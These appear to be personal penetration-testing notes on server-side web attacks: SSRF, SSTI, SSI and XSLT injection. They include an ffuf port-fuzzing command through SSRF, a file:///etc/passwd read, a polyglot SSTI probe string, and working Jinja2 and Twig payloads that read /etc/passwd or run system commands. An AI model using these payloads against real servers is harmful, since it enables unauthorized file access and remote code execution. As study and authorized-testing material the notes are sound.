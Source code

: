 Navigation: [[Pentesting]]

---
# Table of Contents
1. Server-Side Request Forgery
2. Server-Side Template Injection
3. Server-Side Includes Injection
4. XSLT Injection

# SSRF
SSRF Is a vulnerability where attackers can manipulate a web app into sending unauthorized requests from the server. This usually happens when an app makes HTTP requests to other servers based on user input.

The following URI schemes are commonly used in SSRF:
- `HTTP/S` used to fetch content from other endpoints. The main use case for this is to bypass WAFs or access restricted endpoints.
- `file://` reads a file from the local system, can be used for local file inclusion.
- `gopher://` which is used to send arbitrary bytes to a specified address.

**Enumeration**
When observing requests through Burp, we might notice something like the following:
![[ssrf_identify_2.webp]]

We can see a secondary request being made here. To confirm if we can control this request, try changing the request to our own IP and start a netcat listener. If the netcat listener gets a request, we've confirmed that SSRF exists.

Beyond this, if we can see the contents of the request that was made, the SSRF is not blind.

Upon confirming the vulnerability, we can now use `FFUF` to fuzz:
```shell
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

**Exploitation**
First, we may be able to access restricted endpoints. We can fuzz the local subnet as needed. We can also do a directory brute force on the web server itself. We'll first need to find out which server is being used by accessing a non-existent page:
![[ssrf_exploit_2.webp]]

From there we can simply fuzz the local directory using [this](/opt/SecLists/Discovery/Web-Content/raft-small-words.txt) wordlist. We can also try LFI by supplying a URL such as `file:///etc/passwd` and seeing if this gets returned.

We can also use gopher to interact with internal services. Creating URIs for use with gopher can take a while, luckily there's a [tool](https://github.com/tarunkant/Gopherus) for that.

**Mitigating SSRF**
Reference the [OWASP Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
# SSTI
Web apps utilizing templates to generate responses can be vulnerable to SSTI. When an attacker can inject template code, SSTI is available. 

`PayloadAllTheThings` has a nice [guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) for exploiting SSTI. There's also one by [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#twig-php) that goes a bit more in depth.

A very nice tool we can use is [`SSTImap`](https://github.com/vladko312/SSTImap).

**Enumeration**
The most effective way to identify SSTI is to inject some special characters and check the behavior of the web app. A test string we can use that should work against most templates is:
```
${{<%[%'"}}%\.
```

Once we've confirmed the vulnerability exists, we should identify which template engine is being used next. Use the flowchart below:
![[Pasted image 20241130092307.png]]

Follow the red arrow if the web app errors out.

**Jinja Exploits**
```jinja2
# Information disclosure
{{ config.items() }}

# Dump built in functions
{{ self.__init__.__globals__.__builtins__ }}

# LFI
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

# RCE
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

HackTricks made a very nice [guide](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) for Jinja specific SSTI.

**Twig Exploits**
```twig
# Information disclosure
{{ _self }}

# LFI
{{ "/etc/passwd"|file_excerpt(1,-1) }}

# RCE 
{{ ['id'] | filter('system') }}
```
# SSI Injection
Similar to SSTI, but regarding HTML content.

# XSLT Injection
This vulnerability involves manipulating XSLT transformations on the server. XSLT is used to transform XML documents into other formats.


---
Navigation: [[Pentesting]]